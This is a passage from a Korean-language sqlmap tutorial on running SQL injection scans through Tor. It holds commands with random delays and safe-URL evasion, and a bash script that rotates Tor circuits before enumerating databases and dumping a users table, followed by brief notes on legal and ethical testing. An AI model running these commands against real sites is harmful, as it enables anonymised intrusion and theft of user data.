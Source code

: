 ### 랜덤 지연 적용

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --delay=3 --time-sec=5 \
  --randomize=length \
  --safe-url="http://example.com/" \
  --safe-freq=10
```

---

## 11. 실전 스크립트 예제

### 자동화 스크립트 (Tor 회로 재설정 포함)

```bash
#!/bin/bash

# Tor 회로 재설정
reset_tor() {
  echo -e 'AUTHENTICATE ""\r\nSIGNAL NEWNYM\r\nQUIT' | nc 127.0.0.1 9051
  sleep 10
}

# 대상 URL
TARGET="http://example.com/vulnerable.php?id=1"

# 1. 기본 스캔
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --batch --dbs

# 2. 테이블 열거
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --tables -D testdb

# 3. 데이터 덤프
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --dump -D testdb -T users
```

---

## 12. 주의사항 및 모범 사례

### 법적/윤리적 고려사항

1. **허가받지 않은 테스트 금지**: 오직 자신이 소유하거나 테스트 권한이 있는 시스템만 대상으로
2. **책임 있는 공개**: 발견된 취약점은 적절한 채널을 통해 보고
3. **데이터 무결성**: 테스트 시 데이터 변조나 삭제 방지
